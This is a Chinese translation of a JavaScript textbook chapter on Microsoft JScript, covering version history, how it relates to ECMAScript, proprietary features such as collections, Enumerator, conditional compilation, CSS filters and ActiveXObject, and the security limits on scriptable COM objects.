微软将其 ECMAScript 实现称为 "JScript"，以避免商标和许可问题（"JavaScript" 是 Sun Microsystems 的商标）。与 Netscape 的 "JavaScript" 类似，不同版本的 JScript 在不同版本的浏览器中实现。表 21-1 显示了微软 JScript 语言实现与 IE 浏览器版本之间的对应关系。

##### 表 21-1：JScript 语言与浏览器版本之间的关系

| 语言版本 | 浏览器版本 |
| --- | --- |
| JScript 1.0 | Internet Explorer 3.0 |
| JScript 3.0 | Internet Explorer 4.0 |
| JScript 5.0 | Internet Explorer 5.0 |
| JScript 5.5 | Internet Explorer 5.5 |
| JScript 5.6 | Internet Explorer 6.0 |

不同版本的 JScript 与 ECMAScript 标准的对应程度不同。表 21-2 列出了 JScript 版本与标准之间的关系。

##### 表 21-2：微软 JScript 与 ECMA Script 之间的关系

| 微软版本 | 标准版本 | 例外情况 |
| --- | --- | --- |
| JScript 1.0 | 与 ECMA-262 第 1 版非常松散的符合 | 很多，以及一些额外特性（尽管 ECMAScript 部分基于 JScript 1.0） |
| JScript 3.0 | 严格符合 ECMA-262 第 1 版 | 包含一些额外特性 |
| JScript 5.0 | 严格符合 ECMA-262 第 1 版 | 包含许多额外特性 |
| JScript 5.5 | 严格符合 ECMA-262 第 3 版 | 包含一些额外特性 |
| JScript 5.6 | 严格符合 ECMA-262 第 3 版 | 包含一些额外特性 |

第一个 JScript 实现（JScript 1.0）在 Internet Explorer 3 中可用，本质上是微软对 Netscape 2 中 JavaScript 1.0 的克隆。然而，Internet Explorer 3 的发布时间大致与 Netscape 3 相同，后者包含了 JavaScript 1.1。这导致了"特性滞后"——微软浏览器实现的核心语言特性比 Netscape 慢了一代。随着时间的推移，这种滞后越来越小，以至于最新发布的浏览器实现了基本相同的特性集。这一点从 Internet Explorer 5.5 和


### Netscape 6+ 与 ECMAScript 标准

Netscape 6+ 遵循 ECMAScript 标准第 3 版。通过考察这些相似之处，我们可以大致对应 Netscape 和 Microsoft 浏览器中的核心 JavaScript，如表 21-3 所示。请记住，这种对应关系只是近似的，因此在做出假设之前，您应该始终查阅您感兴趣的具体特性。

**表 21-3：Microsoft 与 Netscape/Mozilla JavaScript 的大致对应关系**

| 语言版本 | 浏览器版本 | 语言版本 | 浏览器版本 |
|---|---|---|---|
| JavaScript 1.0 | Netscape 2.0 | JScript 1.0 | Internet Explorer 3.0 |
| JavaScript 1.3 | Netscape 4.06 | JScript 3.0 | Internet Explorer 4.0 |
| JavaScript 1.5 | Netscape 6+，基于 Mozilla 的浏览器 | JScript 5.5 | Internet Explorer 5.5+ |

> **注意** *有些人可能会认为 JavaScript 1.1 或 1.2 与 JScript 3.0 的对应关系更好。虽然这种说法确实有道理，但 JavaScript 1.3 和 JScript 3.0 对 ECMAScript 标准的遵守程度是我们在表 21-3 中建立对应关系的主要因素。谢天谢地，各浏览器在核心语言特性上的差异远没有在对象模型上那么大。*

在本节的剩余部分，我们将简要讨论 JScript 各版本之间的一些主要差异。如果您在较旧的浏览器中遇到脚本问题，本节是查找特性何时被纳入语言的好地方。例如，开发人员可能会想知道为什么他们的 **do/while** 循环在 IE3 下无法工作。原因在于该特性仅从 JScript 3.0 开始包含，因此只在 IE4+ 中才有。

> **注意** *有关语言特性的详细信息，最权威的地方是 Microsoft 的 JScript 文档，可在 [http://msdn.microsoft.com/scripting/](http://msdn.microsoft.com/scripting/) 找到。*

#### JScript 1.0

Internet Explorer 3.0 中的 JScript 1.0 与 Netscape 2.0 支持的内容非常相似，并且浏览器支持几乎完全相同的对象模型。然而，*这一代浏览器中 Netscape 和 Microsoft 之间存在一个巨大的差异——大小写敏感性。* JScript 1.0 通常不区分大小写，因此您可以在更改常见方法和对象的大小写时不受惩罚。这一特性给许多仅使用 Internet Explorer 的新 JavaScript 程序员造成了很大的困惑。除此之外，人们应该关注 JScript 1.0 的唯一主要问题是，Internet Explorer 3.0 直到 3.02 版本才支持 **\<script\>** 标签的 **src** 属性。该实现的具体细节更多是历史兴趣而非实用性。

#### JScript 2.0

虽然 JScript 2.0 最初并非浏览器发布的一部分，但它在 IE3 的后续版本中可用，并包含在 Microsoft 的 Internet Information Server (IIS) 1.0 中。JScript 2.0 的新特性被包含在 JScript 3.0 中，因此这里列出的项目大多数对 Internet Explorer 4 也是新的（尽管它实现的是 JScript 3.0）。

- **Array** 对象。JScript 1.0 未将数组实现为对象，因此您必须使用字面量表示法来创建它们。此版本还添加了 **length** 属性以及 **join()**、**reverse()** 和 **sort()** 方法。
- 对函数的许多改进，包括隐式填充的 **arguments[]** 和 **caller** 属性以及 **Function** 对象。
- 对数字的许多改进，包括 **Number** 对象及其常量 **Number.MAX_VALUE**、**Number.MIN_VALUE** 和 **Number.NaN**，以及全局常量 **NEGATIVE_INFINITY** 和 **POSITIVE_INFINITY**。
- **Boolean** 对象。
- 对象的成熟化，现在包括 **toString()** 和 **valueOf()** 方法以及 **prototype** 属性（尽管此版本中没有 **Object**）。
- **void** 运算符。

#### JScript 3.0

此版本的核心语言特性符合 ECMAScript 标准，并包含在 IIS 4.0 和 IE4 中。从这里列出的新特性可以看出，此版本标志着该语言的重大发布。

- 对 **Date** 进行了彻底的修改，使其符合 ECMAScript 标准。
- 正则表达式，包括 **RegExp** 对象。
- 新的 **Array** 方法：**concat()** 和 **slice()**。
- **String** 的许多新方法：**concat()**、**fromCharCode()**、**slice()**、**split()** 和 **substr()**。
- 符合 ECMAScript 的类型转换。
- 能够 **delete** 对象属性和数组元素。
- 新的流控制机制，包括 **do/while** 循环、为语句添加标签的能力以及 **switch**。
- 对数字的进一步改进，包括全局 **Infinity** 和 **NaN** 常量以及 **isFinite()** 方法。
- **Object** 对象。
- 对 Unicode 的完整支持。

Microsoft 还对语言核心进行了几项专有扩展。这些功能的简要概述见表 21-4。

##### 表 21-4：JScript 3.0 中的专有扩展

| 特性 | 描述 |
|---|---|
| **ActiveXObject** 对象 | 允许脚本创建 ActiveX 组件的实例，以利用扩展功能；例如 Excel 电子表格。本章稍后将更详细地讨论此功能。 |
| **Enumerator** 对象 | 启用对 Microsoft 集合的迭代，类似于对象上的 **for/in** 循环。本章稍后将更详细地讨论此对象。 |
| **VBArray** 对象 | 允许 JavaScript 使用“安全”的 VBScript 数组。 |
| 条件编译 | 允许动态定义和执行代码（而不是线性运行时“编译”）。本章稍后将更详细地描述此功能。 |

#### JScript 4.0

此语言版本从未作为浏览器发布的一部分。相反，它包含在 Microsoft Visual Studio 中。然而，JScript 4.0 实际上与 JScript 3.0 相同，只是为了包含在另一个应用程序中而重新包装和重命名。

#### JScript 5.0

JScript 5.0 版本标志着开始支持高级异常处理。包含第 23 章讨论的 **try/catch** 结构、**Error** 对象以及用于生成自定义错误条件的 **throw** 语句。此版本中唯一的其他主要新增功能是用于迭代对象属性的 **for/in** 循环和 **instanceof** 运算符。

#### JScript 5.5

JScript 5.5 与 JavaScript 1.5 紧密对应，并符合 ECMAScript 第 3 版。新特性如下所列：

- 对函数的改进，包括隐式填充的 **callee** 属性，以及 **call()** 和 **apply()** 方法。函数的 **arguments** 中包含一个 **length** 属性，以指示实际传递的参数数量。
- 新的 **String** 方法 **charCodeAt()**。
- 全局 **decodeURI()** 和 **encodeURI()** 方法，提供与现有 **escape()** 和 **unescape()** 类似的功能。
- **Array** 的栈和队列方法：**pop()**、**push()**、**shift()** 和 **unshift()**。此外，还添加了 **splice()** 方法。
- 对正则表达式的各种有用增强。
- 众多全局转换函数，例如 **toExponential()**、**toFixed()**、**toPrecision()**、**toTimeString()** 和 **toDateString()**。

### 专有 JScript 特性

尽管 JScript 的核心语言能力并未与主流 JavaScript 相差太远，但 Microsoft 确实实现了一些独特的功能。一些功能，如集合，长期以来一直是语言中广泛使用的一部分，甚至已被纳入 Web 标准。

#### 针对 Internet Explorer

由于本节讨论的功能特定于 Internet Explorer，因此将其从其他浏览器中隐藏是有意义的。最简单的方法是使用 **\<script\>** 标签的 **language** 和 **type** 属性。IE 将“JScript”识别为有效的 **language** 值，将“text/jscript”识别为有效的 **type** 值。其他浏览器则不会，因此会忽略此类脚本的内容。因此，在编写特定于 IE 的脚本时，您可以使用：

```
<script language="JScript">

// IE-specific JavaScript

</script>
```

或者如果您仍然关心验证，您可以放弃 **language** 属性，只关注 **type**：

```
<script type="text/jscript">

// IE-specific JavaScript

</script>
```

#### 集合

Internet Explorer 文档对象模型的一个潜在混淆方面是其大量使用集合。*集合*是一种容器对象，保存异构数据，可以通过序数（即索引）或名称访问。它们经常被误认为是数组，因为这两种数据类型的功能非常相似。例如，文档对象“数组”，如 **document.all** 和 **document.images**，实际上是集合。此外，W3C DOM 中的 HTML 元素“数组”也是集合（具体来说是 **HTMLCollection** 对象）。尽管紧随其后的讨论适用于 Netscape 6+ 和其他符合 DOM 的浏览器，但集合最常用于 Internet Explorer 文档对象的上下文中，因此我们在此处重点讨论在 Internet Explorer 中使用集合。

集合用于保存（X）HTML 元素对象的组。例如，**document.all** 保存页面中每个标记元素（和注释）的对象。访问集合成员有许多方法，但最常通过名称检索。要检索特定对象，请使用元素的 **id** 或 **name** 属性的值。所有以下语法均有效：

```
collectionName.name

collectionName["name"]

collectionName("name")

collectionName.item("name")

// namedItem() 仅在 Internet Explorer 6+ 中支持

collectionName.namedItem("name")
```

当使用非数字字符串索引集合时，解释器首先在集合中搜索任何 **id** 与给定 *name* 匹配的成员，然后搜索任何 **name** 匹配的成员。如果多个元素与给定的 *name* 匹配，它们将作为集合返回。

通过序数访问成员具有类似的语法。因为集合索引是从零开始的，所以您可以使用以下任何方式访问集合的第三个元素：

```
collectionName[2]
```


```
collectionName(2)

collectionName.item(2)
```

注意，*collectionName()* 语法只是 *collectionName.item()* 的简写。我们之前提到过，当通过名称访问时，如果有多个匹配元素，集合会返回一个成员集合。在这种情况下，你可以结合这两种访问形式来选取返回集合中的一个成员。例如，如果你对多个名为 "myElement" 的条目中的第二个感兴趣，你可以写成：

```
collectionName.item("myElement").item(1);
```

Internet Explorer 为此操作提供了便利的简写。你可以将感兴趣的条目的索引作为第二个参数传递给 **item()** 方法。以下与前一个示例等效：

```
collectionName.item("myElement", 1);
```

集合的其他标准属性有 **length**，表示集合包含多少个成员，以及 **tags()**，它接受一个表示 (X)HTML 标签的字符串，并返回由该标签创建的所有对象的集合。例如，要检索文档中对应于 `<p>` 标签的所有元素对象的集合，你可以写成：

```
var pTags = document.all.tags("p");
```

某些集合——例如 **Select** 对象的 **options** 集合——还有 **add()** 和 **remove()** 方法。

### 枚举器对象（Enumerator）

因为访问集合时，当多个成员共享相同的 **name** 或 **id** 时会检索到一个集合，所以似乎没有明显的方法来遍历每个成员。你可能会认为 **for/in** 循环可以工作，但不幸的是 **for/in** 循环用于对象，而不是集合。相反，Internet Explorer 使用 **Enumerator** 对象，让人联想到 C++ 中的迭代器。

当集合被传递给 **Enumerator()** 构造函数时，会创建一个 **Enumerator** 实例，可用于逐步遍历集合中的每个条目。使用对象来逐步遍历每个元素有几个优点，最明显的是可以将其引用作为数据传递，这在其他情况下是不可能的。**Enumerator** 对象的方法列于表 21-5 中。

**表 21-5：Enumerator 对象的方法**

| 方法 | 描述 |
|---|---|
| atEnd() | 返回一个布尔值，指示枚举器是否在集合末尾。 |
| item() | 检索当前条目。 |
| moveFirst() | 移动到集合中的第一个条目。 |
| moveNext() | 移动到集合中的下一个条目。 |

以下代码展示了如何使用 **Enumerator**。该脚本将 **document.all** 传递给 **Enumerator()** 构造函数，然后使用生成的对象来遍历页面中的所有标签。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
  "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>Enumerator 示例</title>

<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />

</head>

<body>

<h2>Enumerator 示例</h2>

<p>这是一些文本。</p>

<h3>标签</h3>

<script type="text/jscript">

<!--

var element;

var e = new Enumerator(document.all);

while (!e.atEnd())

{

    element = e.item();

    document.write(element.tagName + "<br />");

    e.moveNext();

}

// -->

</script>

<!--   要写入的主体内容 -->

</body>

</html>
```

结果如图 21-1 所示。


图 21-1：使用 **Enumerator** 遍历页面中的所有元素

### 条件编译

JScript 3.0 及更高版本包含类似于 C 语言预处理器的条件编译功能。条件编译指令可以访问特殊的环境变量，这些变量提供有关客户端平台的信息。这些指令可用于条件表达式中，以包含或排除要（或不要）解释的代码。思路是使用这些指令来测试特定条件——例如调试标志或提供扩展功能的平台——并相应地修改解释器看到的代码。

条件编译指令非常简单。所有指令都以 @ 符号为前缀，具有典型的预处理器语法。最重要的语法是 **if/else** 语句，它们简单明了：

```
@if (conditional)
body
[@elif (conditional)
body]
...
[@else
body]
@end
```

浏览器提供了许多预定义变量用于条件编译。这些变量描述于表 21-6 中。任何未定义或为假的条件编译变量行为均为 NaN。

**表 21-6：条件编译变量**

| 变量 | 描述 |
| :--- | :--- |
| `@_win32` | 如果机器正在运行 32 位 Windows 系统，则为真。 |
| `@_win16` | 如果机器正在运行 16 位 Windows 系统，则为真。 |
| `@_mac` | 如果机器正在运行 Apple Macintosh 系统，则为真。 |
| `@_alpha` | 如果机器是 DEC/Compaq Alpha，则为真。 |
| `@_x86` | 如果机器是 x86 处理器（即 Intel 80x86、Pentium 及其兼容产品），则为真。 |
| `@_mc680x0` | 如果机器是 Motorola 680x0，则为真。 |
| `@_PowerPC` | 如果机器是 PowerPC 处理器，则为真。 |
| `@_jscript` | 如果正在使用 JScript，则为真（始终为真）。 |
| `@_jscript_build` | 指示 JScript 引擎构建编号的数字。 |
| `@_jscript_version` | 指示正在使用的 JScript 主要和次要版本的数字。格式为 *major.minor*（例如，5.5）。 |

你可以在条件编译期间使用以 @ 开头的标识符设置和操作新变量。设置此类变量的语法是：

```
@set @identifier = value
```

*value* 是由其他 @ 变量、布尔值、数字以及常规算术和位运算符组成的表达式。不允许使用字符串。你可以这种方式设置的变量在未来的条件编译语句中使用，甚至在"正常"的 JavaScript 中使用。例如：

```
<script type="text/jscript">

@set @debugging = true

@if (@debugging)

    alert("Debugging is on because the value of @debugging is: " + @debugging);

@end

</script>
```

产生的结果如下：


虽然你可以直接在脚本中包含条件编译指令，但这样做可能会使非 JScript 浏览器感到困惑。因此，几乎总是最好将这些指令放在注释中。如果在任何其他指令之前使用 **@cc_on** 指令，Internet Explorer 将在注释中查找条件编译指令。

你还必须通过以 @ 指令开头并以 @ 符号结尾来标识包含条件编译语句的注释。例如：

```
<script type="text/jscript">

/*@cc_on @*/
/*@set @debugging = true@*/

</script>
```

由于条件编译指令的处理发生在正常脚本解释之前，你可以用它来有选择地启用或禁用代码片段。考虑以下脚本，它根据支持哪个版本的 JScript（如果有的话）来定义两个函数之一：

```
<script type="text/javascript">

/*@cc_on @*/

/*@if (@_jscript_version >= 5)

function doTask()

{

   // some code using advanced IE5+ features

   alert('IE Specific code!');

}

@else @*/

function doTask()

{

   // some code using standard browser features

   alert('Non-IE Specific code!');

}

/*@end @*/

doTask();

</script>
```

JScript 3+ 浏览器处理条件编译指令，如果正在使用 JScript 5+，则定义第一个 *doTask()*。否则，使用第二个定义。不支持条件编译的浏览器简单地忽略注释中的所有内容，结果使用第二个定义。

这种技术对于定义利用高级平台或版本特定功能但在其他浏览器下仍能优雅降级的函数非常有用。

### 专有浏览器特性

微软是无可争议的专有浏览器特性之王。比其他任何厂商都更积极，微软持续主动地将新技术捆绑到其浏览器中。虽然许多批评者认为这些新技术通过延续用户对专有微软技术的依赖来增加微软对浏览器市场的主导地位，但 Internet Explorer 的一些更高级功能的实用性是不可否认的。这些创新令人惊讶的方面不在于它们的能力或与操作系统集成的程度。事实上，微软已明确表示，将 Web 与 Windows 及相关软件产品更深度地集成是其主要目标之一。相反，这些特性令人惊讶的方面是，了解它们存在的开发者如此之少。


在本节中，我们简要概述了各个版本的 Internet Explorer 中一些新的专有功能。虽然其中一些功能严格来说并非 JavaScript 本身的功能，但它们在功能上往往与 Web 开发息息相关，对于为 Internet Explorer 编程的 Web 开发人员颇具吸引力。由于较新版本中存在的专有功能数量庞大，我们有时会选择突出介绍一些最有用的功能，而省略一些次要或较少使用的功能。我们将在接下来的章节中介绍一些最有用的功能。Internet Explorer 的完整文档始终可从 Microsoft Developer Network (MSDN) 获取，网址为 [http://msdn.microsoft.com](http://msdn.microsoft.com)。

##### Internet Explorer 3

作为第一款提供 JScript 支持的浏览器，Internet Explorer 3 仅实现了少数其他浏览器所没有的专有功能，这并不令人意外。最值得注意的是支持 ActiveX 控件和通过 Authenticode 技术签名的嵌入式对象。该浏览器版本还支持第 18 章讨论的基本 LiveConnect 功能。

使用 IE3 时需要注意一些问题。某些早期版本显然在加载外部链接的 JavaScript 库时存在问题。此外，如前所述，IE3 的 JScript 实现的某些方面是不区分大小写的，因此在使用非常旧的脚本时需要小心谨慎。尽管向较新浏览器版本的转变使这些问题不那么令人担忧，但它们确实会不时出现。

#### Internet Explorer 4

第 9 章讨论的文档对象模型的分歧导致了 IE4 中大量专有功能的出现。由于没有编程语言无关且中立于厂商的标准来规定如何将元素暴露给脚本，每个厂商都实现了自己的对象模型。除了明显的专有文档对象模型之外，IE4 还引入了一些开始模糊活动 Web 文档与完整应用程序之间界限的功能。表 21-7 给出了 IE4 中引入的专有功能的总体概述，其中一些功能在接下来的章节中有更详细的介绍。

**表 21-7：Internet Explorer 4 中引入的一些专有功能**

| 功能 | 描述 |
|---|---|
| IE DHTML | 根据 Internet Explorer 的文档对象模型动态操作文档的能力。主要实现方式是 **document.all** 和访问元素的 **style** 对象。 |
| **window.external** | 允许脚本访问客户端提供的扩展对象模型功能（例如，浏览器辅助对象）。更多信息请参阅 MSDN。 |
| IE 事件模型 | Internet Explorer 的专有事件模型（事件冒泡）以及专有的事件处理程序。 |
| CSS 滤镜 | 提供各种非标准的字体和页面过渡特效。 |
| 数据绑定 | 允许 HTML 元素绑定到外部数据源，以便自动检索和更新信息，而无需显式操作（如表单提交）。 |
| Scriptlet | 封装的 JavaScript，可以作为嵌入式对象包含在文档中。 |
| 模态窗口 | **Window** 的 **showModalDialog()** 和 **showModelessDialog()** 方法允许创建特殊类型的弹出窗口。 |

从 IE4 开始提供的更有趣的功能之一是使用 scriptlet。*Scriptlet* 是通过 **\<object>** 标签嵌入页面中的 HTML 文档。其目的是提供可复用的功能单元，例如 DHTML 悬停效果或动画。其理念是通过将常用功能封装在这些组件中来促进脚本的可复用性。虽然 scriptlet 技术有趣且通常很有用，但它已在 Internet Explorer 5 及更高版本中被相关技术 DHTML 行为所取代，因此我们仅为历史角度提及它。

IE4+ 一个较少为人知的功能是能够禁用文档对象的实例属性。通过将 **Document** 对象的 **expando** 属性设置为 **false**，任何在文档对象层次结构中设置实例属性的尝试都会抛出错误。

#### Internet Explorer 5

Internet Explorer 5 提供了更多使网页表现得更像应用程序而非文档的功能。表 21-8 简要概述了其中一些强大的功能。

**表 21-8：Internet Explorer 5 中引入的一些专有功能**

| 功能 | 描述 |
|---|---|
| HTML+TIME | 定时交互式多媒体扩展（TIME）是一种基于 XML 定义的语言，提供页面中声音、视频和其他效果的同步。 |
| 动态属性 | 允许将表达式（而非静态值）作为属性的值进行赋值。这些表达式会被动态求值以反映页面的当前状态。 |
| HTML 应用程序 | HTML 应用程序（HTA）是在客户端作为完全受信任的应用程序运行的 HTML 页面（及相关脚本）。它们对于编写不受通常与不受信任代码相关的安全限制的 Internet Explorer 代码很有用。 |
| 附加 DHTML 行为 | 一种强大的技术，允许将执行某些预定义操作的代码绑定到页面中的标签。行为具有广泛的应用范围，从自动修改样式到以类似于 Netscape 中签名脚本的方式与用户浏览器交互。 |

HTML+TIME 增强功能使 Web 页面能够更加以多媒体内容为中心。HTML+TIME 提供文本、图像、音频和视频的先进集成，并允许将动画与页面上的其他媒体元素同步。

除了表 21-8 中列出的主要新技术外，IE5 还对 IE 文档对象模型进行了许多专有改进。它还包括对 IE 文档对象模型的更改，使其部分符合 W3C DOM。例如，**getElementById()** 和其他基本 DOM1 HTML 方法可用，但该浏览器并非完全 DOM1 兼容。有关如何使用这些功能的信息，请参阅第 10 章。

#### Internet Explorer 5.5

虽然人们可能期望像 5.5 这样的次要版本包含相对较少的新功能，但 IE5.5 的情况肯定并非如此。表 21-9 列出了一些主要的专有新功能，但也包含了对对象模型和核心语言的 numerous "under the hood" 改进。最引人注目的是新的符合 DOM 的对象模型特性，以及 JScript 5.5 对 ECMAScript 第 3 版的遵循。

**表 21-9：Internet Explorer 5.5 中引入的一些专有功能**

| 功能 | 描述 |
|---|---|
| 弹出窗口 | 能够轻松创建高度自定义的弹出窗口。 |
| 元素 DHTML 行为 | Internet Explorer 5.0 中可用的附加 DHTML 行为的扩展版本。元素行为允许你定义具有特定功能的新元素，这些新元素可以像标准 HTML 一样在页面中使用。 |
| 打印自定义 | 允许开发者在页面从浏览器打印方式方面拥有极大的灵活性，例如自动文档转换以准备打印，以及定义自定义打印模板的能力。 |

创建自定义弹出窗口的能力模拟了更复杂的 DHTML 菜单功能，但界面比大多数开发者习惯的要简洁得多。虽然关注跨浏览器兼容性的开发者应避免使用这类功能，但随着越来越多的用户转向新版本的 Internet Explorer，这些类型的弹出窗口将成为越来越有吸引力的替代更复杂 DHTML 解决方案的选择。IE5.5+ 中的弹出窗口将在后面的章节（以及第 12 章）中讨论。

#### Internet Explorer 6

Internet Explorer 6 引入的主要变化与标准相关。IE6 几乎符合 CSS1 和 DOM1，并对 DOM2 有部分支持。该浏览器的发布最终标志着主要浏览器之间文档对象模型的融合（Internet Explorer 6、基于 Mozilla 的浏览器和 Opera）。

浏览器对标准的强调突出体现在其两种渲染模式：标准模式和怪异模式。通过检查 (X)HTML 文档开头的文档类型定义声明（DOCTYPE），浏览器会切换到其中一种模式。通常，当遇到 XHTML 或完全限定的 HTML DOCTYPE 时，会进入标准模式。当遇到较旧或未知的 HTML DOCTYPE 时，以及如果缺少 DOCTYPE 时，浏览器通常会进入怪异模式。在视觉上，开发者可能会注意到不同模式之间的轻微布局变化，因为布局模型存在差异。此外，JavaScript 开发者可能会注意到，在标准模式下缺少某些专有功能，并且某些标签或

属性可能不再被识别，从而导致极大的麻烦。始终记住，正确的 JavaScript 依赖于格式良好的标记（不必重复，但你确实需要掌握 (X)HTML 才能成为一名优秀的 JavaScript 程序员）。

IE6 中引入的其他改进包括：能够捕获鼠标滚轮事件、支持 P3P、改进 XML 处理能力（参见第 20 章），以及各种可用性和多媒体（HTML+TIME）增强功能。对于应用程序开发者来说，一个有用的安全功能是可以为 `<frame>` 和 `<iframe>` 指定 **security="restricted"** 属性和值。使用此属性会使框架中加载的文档在受限的浏览器安全上下文中运行（参见第 22 章），有效地禁用脚本和其他潜在危险的行为。

既然我们已经概述了各个版本 Internet Explorer 中可用的主要专有特性，让我们更详细地了解一些。

### CSS 滤镜

CSS 滤镜为开发者提供了一种方法，无需借助嵌入式多媒体文件（如 Flash）即可为其页面添加丰富的视觉特效。这些功能在能够显示 256 种或更多颜色且运行 IE4+ 的系统上作为专有 CSS（和 JavaScript）扩展可用。*滤镜*以类似于图形处理程序（如 Photoshop）提供的滤镜的方式改变内容的静态外观。*过渡*在页面加载期间提供类似电影的特效，例如淡入和像素化。

可以通过脚本或静态 CSS 的使用将滤镜和过渡应用于元素。每个滤镜和过渡的特定属性使开发者能够灵活控制每个效果的性质。例如，它们允许指定不同的颜色、过渡速度，甚至环境光照。

虽然 CSS 滤镜的完整细节超出了本书的范围，但以下示例说明了 Xray 滤镜的使用。你可以通过替换自己的图像代替 "myimage.gif" 来尝试。单击图像可切换 Xray 滤镜。

```
<script type="text/jscript">

<!--
function toggleXRay(theObject)
{
    // Get status of the filter
    var XRayStatus = theObject.filters.item('xray').enabled;
    // Toggle the status
    theObject.filters.item('xray').enabled = !XRayStatus
}
//--> 

</script>

<!-- Place an image on the web page and manipulate the filter -->

```

使用脚本操作滤镜和过渡可以为网页带来几乎电影般的品质。JavaScript 开发者可以使用淡入淡出、擦除和溶解等过渡效果从一个图像切换到另一个图像，而不是从一个图像到另一个图像的平淡翻转。

你可以在 MSDN 上找到关于 CSS 滤镜的完整信息，当前网址为 msdn.microsoft.com/library/default.asp?url=/workshop/author/filter/filters.asp（或者直接搜索 microsoft css filters）。

### ActiveXObjects

Microsoft COM（组件对象模型）对象是为特定任务打包的可重用二进制对象。由于许多 Windows 应用程序都是作为一组协作的 COM 对象实现的，因此通常可以在你编写的程序中重用现有应用程序（或现有应用程序的部分）。例如，你可能使用与 Microsoft Word 编辑界面对应的 COM 对象，以便在应用程序中实现文本编辑功能。

JScript 可以通过 ActiveX 技术访问 COM 对象，这是一组支持基于 Web 使用 COM 的功能。JScript 使用 **ActiveXObject** 与 *Automation 服务器*通信，基本上是一种实现一个或多个 COM 对象的代理对象。通过 **ActiveXObject**，你可以实例化 COM 对象来执行各种有用的任务。这种能力使 JScript 能够像"普通"应用程序一样，通过为文件 I/O 和注册表修改等任务构建的 COM 对象来完成工作。

创建 COM 对象的基本语法是

```
var *comObj* = new ActiveXObject("*libraryname.typename*");
```

*libraryname* 是实现 COM 对象 *typename* 的库的名称。例如，要实例化一个可以用脚本控制的 Microsoft Word 应用程序，你可以使用

```
<script language="JScript">

var wordObj = new ActiveXObject("Word.Application");
wordObj.application.visible = true;

</script>
```

此示例创建了一个新的 Word 窗口，可以完全用脚本控制。**Word** 对象公开了可用于加载、保存和修改文档的方法。然而，正如我们将在后面章节中看到的，并非所有实例化的 COM 对象都会创建独立的应用程序。

> **注意** *你也可以将 classid 值传递给 ActiveXObject 构造函数，以创建特定的对象。*

两个棘手的问题是如何知道可以使用哪些自动化服务器和 COM 对象，以及如何知道这些对象公开了哪些方法。这些问题的唯一好的答案是熟悉 Microsoft COM 以及通常在大多数 Windows 计算机上可用的对象。这些问题的讨论远远超出了本书的范围，但感兴趣的读者可以在 **msdn.microsoft.com** 上找到信息，或者更好的是，在任何一本关于使用 Microsoft COM 的好书中找到。

#### 安全问题

有安全意识的读者此时应该对嵌入网页中的 JavaScript 实例化并控制用户计算机上的应用程序的想法感到恐惧。具有这种能力的脚本在用户的计算机上拥有 *完全自由*：读取和写入文件、执行网络操作以及修改操作系统设置的能力。显然，**ActiveXControl** 的强大功能应该限制在可信任的页面上。

由于与这些工具相关的安全风险，Internet Explorer 仅允许网页实例化被其作者标记为"对脚本安全"的 COM 对象。此指示器内置于对象中，并告诉 Internet Explorer 如果对象由脚本控制，不会给用户计算机带来任何"不良"后果。大多数强大的对象（如 Word 组件以及从文件系统读写的对象）未标记为对脚本安全，因此大多数网页无法实例化它们。

此政策的例外是从 Internet Explorer 的"本地计算机"和"受信任的站点"安全区域加载的页面（参见第 22 章）。从这些区域加载的脚本 *可以* 实例化不安全的控件，尽管通常这样做需要用户的许可。

| 方法 | 描述 |
| --- | --- |
| **BuildPath**(*path*, *name*) | 将目录或文件名 *name* 添加到由 *path* 给出的目录路径末尾。 |
| **CopyFile**(*source*, *destination* [, *overwrite*]) | 将文件 *source* 复制到 *destination*，如果可选的 *overwrite* 参数设置为 **true**，则覆盖 *destination*。你可以在 *source* 中使用通配符。 |
| **CopyFolder**(*source*, *destination* [, *overwrite*]) | 将目录 *source* 复制到 *destination*，如果可选的 *overwrite* 参数设置为 **true**，则覆盖 *destination*。你可以在 *source* 中使用通配符。 |
| **CreateFolder**(*folder*) | 创建由 *folder* 指定的目录。 |
| **CreateTextFile**(*filename* [, *overwrite* [, *isUnicode*]]) | 创建新的文本文件 *filename*，如果 *overwrite* 为 **true**，则覆盖现有文件。除非 *isUnicode* 为 **true**，否则文件创建为 ASCII 文本文件。 |
| **DeleteFile**(*filename* [, *force*]) | 删除文件 *filename*。如果 *force* 为 **true**，则删除只读文件。 |
| **DeleteFolder**(*filename* [, *force*]) | 删除目录 *filename*。如果 *force* 为 **true**，则删除只读目录。 |
| **DriveExists**(*drive*) | 返回一个布尔值，指示由 *drive* 指定的驱动器是否存在。 |
| **FileExists**(*file*) | 返回一个布尔值，指示由 *file* 指定的文件是否存在。 |
| **FolderExists**(*folder*) | 返回一个布尔值，指示由 *folder* 指定的目录是否存在。 |
| **GetAbsolutePathName**(*path*) | 返回 *path* 的规范化目录路径（例如，如果 *path* 为 ..，则返回绝对路径）。 |
| **GetBaseName**(*path*) | 返回 *path* 最后一个组件的基本名称。 |
| **GetDrive**(*drive*) | 返回与由 *drive* 指定的驱动器对应的 **Drive** 对象。 |
| **GetDriveName**(*path*) | 返回 *path* 中给出的驱动器名称（如果有）。 |
| **GetExtensionName**(*path*) | 返回 *path* 最后一个组件的扩展名。 |
| **GetFile**(*filename*) | 返回与由 *filename* 指定的文件对应的 **File** 对象。 |
| **GetFileName**(*path*) | 返回给定 *path* 的文件名组件。 |
| **GetFolder**(*folder*) | 返回与由 *folder* 指定的目录对应的 **Folder** 对象。 |
| **GetParentFolderName**(*path*) | 返回作为由 *path* 指定的文件或文件夹的父文件夹的名称。 |
| **GetSpecialFolder**(*which*) | 返回由 *which* 给出的特殊文件夹的名称。*which* 参数是一个整数，值为 0（Windows 文件夹）、1（系统文件夹）或 2（临时文件夹）。 |
| **GetTempName**() | 返回一个随机文件名（但不创建文件）。 |
| **MoveFile**(*source*, *destination*) | 将由 *source* 指定的文件移动到 *destination*。*source* 中可能包含通配符。 |
| **MoveFolder**(*source*, *destination*) | 将由 *source* 指定的目录移动到 *destination*。*source* 中可能包含通配符。 |
| **OpenTextFile**(*filename* [, *mode* [, *create* [, *format*]]]) | 打开由 *filename* 指定的文本文件。*mode* 参数可以为 1（只读）或 8（追加）。布尔值 *create* 指示如果文件不存在是否应创建文件。*format* 参数可以为 0（使用 ASCII 文本）、1（使用 Unicode）或 2（使用系统默认值）。 |


